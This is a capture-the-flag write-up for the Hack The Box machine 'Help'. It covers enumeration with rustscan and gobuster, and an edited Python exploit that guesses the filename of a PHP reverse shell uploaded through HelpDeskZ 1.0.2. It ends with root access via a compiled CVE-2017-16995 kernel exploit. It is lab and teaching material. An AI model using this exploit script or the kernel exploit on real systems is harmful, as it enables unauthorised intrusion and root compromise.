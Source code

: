 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/addb842d-c4bf-4aed-b681-0ffc74ab64f0)

https://app.hackthebox.com/machines/Help

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began with the quick rustscan & observed 3 open port from the scan, i.e. 22, 80, 3000.

```bash
sudo rustscan -a 10.10.10.121 -- -sC -sV -vv -oN help_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/63f363fd-7d91-4d9d-bbc9-8fed5c1e10a1)

```Rust
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZY4jlvWqpdi8bJPUnSkjWmz92KRwr2G6xCttorHM8Rq2eCEAe1ALqpgU44L3potYUZvaJuEIsBVUSPlsKv+ds8nS7Mva9e9ztlad/fzBlyBpkiYxty+peoIzn4lUNSadPLtYH6khzN2PwEJYtM/b6BLlAAY5mDsSF0Cz3wsPbnu87fNdd7WO0PKsqRtHpokjkJ22uYJoDSAM06D7uBuegMK/sWTVtrsDakb1Tb6H8+D0y6ZQoE7XyHSqD0OABV3ON39GzLBOnob4Gq8aegKBMa3hT/Xx9Iac6t5neiIABnG4UP03gm207oGIFHvlElGUR809Q9qCJ0nZsup4bNqa/
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHINVMyTivG0LmhaVZxiIESQuWxvN2jt87kYiuPY2jyaPBD4DEt8e/1kN/4GMWj1b3FE7e8nxCL4PF/lR9XjEis=
|   256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxDPln3rCQj04xFAKyecXJaANrW3MBZJmbhtL4SuDYX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan results I observed that:

- On port 22 SSH is running, which is default.
- On port 80 HTTP server is running with the domain: "help.htb", which I added to my host config file.
- Port 3000 also hosted a HTTP server with "Node.js Express framework".

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Fuzzing:

After fininshing the port scan I browsed through the domain "http://help.htb" & found it's just an default Apache server page.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f0c31e9e-9df0-4219-91de-36cb918a90d9)

Moved onto the port 3000 & observed just a note: "Hi Shiv, To get access please find the credentials with given query"

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/828494b0-b3e3-4fa2-946c-791597e9d63f)

Once browsing through the web pages I perform sub-directory enumeration on "help.htb" & found 2 new directories:

```bash
gobuster dir -u http://help.htb/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o help_web -x txt,php,congif,aspx -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/76b815b2-595b-43f1-98b7-84d8b91f44d7)

The javascript end point is blocked for me but I was able to browse through "help.htb/support" & found a "HelpDeskZ" application running.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/92905cb7-05ae-488c-8668-d466e9c9e402)

I checked for "HelpDeskZ" related exploit in searchsploit & got 2 results in which one of the exploit is related to "Arbitrary file upload for version 1.0.2":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf470d0e-7213-41f9-83f0-8c933df4d9be)

But I didn't able to determine yet that which version of HelpDeskZ is currently running, so I searched for HelpDeskZ GitHub repo & simultaneously I started sub-directory enumeration as well.
While searching on Github I found this [repo](https://github.com/alitalaghat/HelpDeskZ-1.0), which contains multiple directories:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e3023354-426a-45f3-88f2-a7ade9d45558)

Gobuster scan showed me the scans which is matching with the Github directories as well:

```bash
gobuster dir -u http://help.htb/support/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5e5eca4d-a4c3-407e-91b3-0074be4a6d80)

This makes me confirm that the HelpDeskZ service is running on version 1.0.2 as the other versions isn't having the similar directories. 

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

After confirming the version running on the target box I downloaded the python exploit from the searchsploit & as per the exploit memtioned:

```
The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

controllers httpsgithub.comevolutionscriptHelpDeskZ-1.0tree006662bb856e126a38f2bb76df44a2e4e3d37350controllerssubmit_ticket_controller.php - Line 141
$filename = md5($_FILES['attachment']['name'].time())...$ext;

So by guessing the time the file was uploaded, we can get RCE.
```
By following the exploit I submitted a ticket on the forum with a PHP reverse shell file & executed the python script. But even after attempting multiple time I wasn't able to execute my shell:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/452628ea-1dd8-4e57-9c13-01b44f854eb7)

### Exploit code review & changes:

Moving further I checked the source code of the application & checked for the upload file location. I found that the application is uploading the files towards '/ticket' directory.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e65d1588-1fbc-43c2-9740-f357f62f86a7)

So, I made some changes in the code, removed the user input argument part, added the file location & file name manually. Here is the final code after my edit:

```python
import hashlib
import time
import sys
import requests
import datetime

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

''' #commented this part to stop taking user argument
if len(sys.argv) < 3:
    print "Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)
'''

helpdeskzBaseUrl = 'http://help.htb/support/uploads/tickets/'
fileName = 'better_rev.php' #This is the pentest-monkey PHP reverse shell script, listening on 1337


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)

print 'Sorry, I did not find anything'
```

After making the neccessary changes I executed the code again & started my netcat listener & finally received the shell as "help". Also, got the user flag in the home directory of the "help" user as well. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/867ba655-85fb-4d5f-a3ac-6d6a6007ed59)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/db85ec0b-1446-4923-8ed5-42f780f9ef78)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf4d8efe-2e68-4fe8-bd97-568d7e3e5c24)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Esclation:

After obtaining the user flag my next objective is to gain root flag & to get the root flag I have to esclate my privileges. 
In search of the privilege escalation vectors, I started with manula enumeration:

- checked sudo privileges "sudo -l" but as I don't have the user credentials I wasn't able to run the command.
- Checked for cron jobs but nothing is running.
- Checked for the OS verison & observed it's running "4.4.0-116-generic #140-Ubuntu"

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e474ad75-0d39-45f9-a984-921cc547834e)

I checked the linux kernel version in searchsploit & observed that this version is vulnerable to "CVE-2017-16995", also there is an exploit available for it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/98aa420e-1da0-4078-90f3-1b644165684d)


I downloaded the exploit & compiled the exploit as it's written in C.

```bash
gcc 44298.c -o exploit
```

After compiling the exploit I moved transferred it to the target box & executed it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a2dd9933-d91b-46a2-81b7-bcc72daab21e)

After transferring the exploit I executed it & quckly got the rool shell after which I  grabbed the root flag as well. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e03f86f3-75f4-496e-9bcb-6f56dcbc19bc)
